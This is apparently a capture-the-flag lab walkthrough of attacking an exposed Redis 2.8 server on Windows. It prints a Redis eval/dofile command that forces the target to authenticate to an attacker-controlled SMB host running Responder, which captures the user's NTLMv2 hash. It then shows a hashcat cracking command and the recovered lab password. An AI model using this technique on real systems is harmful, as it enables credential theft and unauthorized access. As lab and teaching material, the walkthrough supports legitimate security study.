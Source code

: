
## Information Gathering

Through **Nmap** we found port **53 DN**S is open which can be used to perform zone transfer, **139 & 445 SMB** ports are open and can be used to enumerate network shares with anonymous user for initial access, **6379 Redis Server** port is opened which can be used to gain information about Redis Server and many **rpc** ports are open.

### Redis Server 6379

**Redis** is a popular open-source, in-memory key-value store used extensively for caching and fast data retrieval. While Redis is highly performant, it is often misconfigured or left exposed on the internet, making it a target for attackers during penetration testing engagements.

In our case Redis Server Redis-x64-2.8.2402 running, vulnerable to RCE, got after running **INFO** command

```bash
$ redis-cli -h 10.10.249.173
$ INFO
```
<img src="https://i.imgur.com/gV8yaIu.png">

Quick Google Search reveals that this version is vulnerable to command injection. You can learn more about it [here]([https://revshells.com](https://michalszalkowski.com/security/pentesting-ports/6379-redis))  (R2)

<img src="https://i.imgur.com/blJKAx8.png">

### Redis Exploitation

Using redis vulnerability we can also steal the NTLM hash of current user. To steal the NTLM hash, we first need to run Responder.

<img src="https://i.imgur.com/AS3prwO.png">

Then run the `eval` function to make request to our responder.

```bash
$ eval "dofile('//Your-Tun0-IP/test')" 0
```

<img src="https://i.imgur.com/37jN8yq.png">

We got NTLMv2 Hash of user `enterprise-security` on our responser.

<img src="https://i.imgur.com/MUqqROe.png">

### Hash cracking using Hashcat

After saving Hash in a file and cracking it using hashcat and we discover the clear text password as **sand_0873959498**. 

```bash 
$ hashcat -m 5600 enter-prise.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```
